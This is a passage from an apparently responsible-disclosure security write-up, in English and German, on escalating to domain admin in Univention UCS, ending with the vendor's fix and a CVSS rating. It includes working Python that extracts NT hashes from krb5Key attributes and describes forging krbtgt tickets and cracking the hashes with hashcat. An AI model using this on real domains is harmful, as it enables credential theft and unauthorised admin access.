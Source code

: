 ```python

    NThash = None

    keyblock,salt,kvno = heimdal.asn1_decode_key(base64.b64decode(ucs_krb5key))

    if keyblock.keytype().toint() == krb5_keytype__arcfour_hmac_md5:
        NThash = binascii.hexlify(keyblock.keyvalue()).decode('utf-8')
    else:
        print(f'Keytype is: ', keyblock.keytype().toint())

    return NThash


def main():
    parser = argparse.ArgumentParser(
            prog='ProgramName',
                    description='Simple tool to extract ntlm hash out of the arcfour_hmac_md5 krb5key used by univention ucs')
    parser.add_argument('-d', help="put your base64 encoded krb5key value here", required=True)
    args = parser.parse_args()
    nt_hash = extract_NThash_from_krb5key(args.d)
    print("NThash: ",nt_hash)


if __name__ == '__main__':
    main()
```

And this worked like a charm. It allows us to extract the `NThash` out of the `krb5Key`.
Now we could take the `krb5Key` of the `krbtgt` account for example to forge a ticket as `Administrator`, which is the default "Domain Admin" in UCS.

![AdminWorks.png](.attachments/Admin_Works.png)

Und das war's. Wir können jetzt jeden beliebigen Benutzer impersonieren.

Vielleicht können wir auch die anderen Schlüsselblockwerte verwenden, um die TGTs irgendwie zu signieren. Aber das haben wir bisher noch nicht weiter untersucht.

# Methode 3: Passwörter Rekonstruieren
Da wir im Besitz der `NThashes` sind, können wir auch recht effizient versuchen, Passworte zu knacken. Wir haben bestätigt, dass das `sambaNTPassword` das tatsächliche Benutzerpasswort beinhaltet.
Die Verwendung von hashcat, einiger geeigneter Wortlisten sowie einiger guter Regeln könnte uns hier weitere Möglichkeiten eröffnen.

Mit diesen Methoden konnten wir aufgrund einer grundlegenden Fehlkonfigurationen, eines trivialen, aber folgeschweren Fehlers und beispielsweise eines wiederherstellbaren Kennworts, oder dem Wiederherstellen des `krb5key` Attributs, von "jeder Benutzer in der Domäne" zu "Administrator", dem "Domain Admin" Äquivalent, gelangen.

# Der Fix
Die Bearbeitungszeit und Antwortzeiten von [Univention](https://www.univention.de/) waren außergewöhnlich. Es war ein Vergnügen, mit ihnen zu arbeiten, da die Kommunikation schnell, professionell und lösungsorientiert war! Herzlichen Dank für diese großartige Erfahrung und das Bewusstsein für Sicherheit!
Die Schwachstelle wurde von Univention mit [7.9 (CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:N)](https://forge.univention.org/bugzilla/show_bug.cgi?id=56324) bewertet.
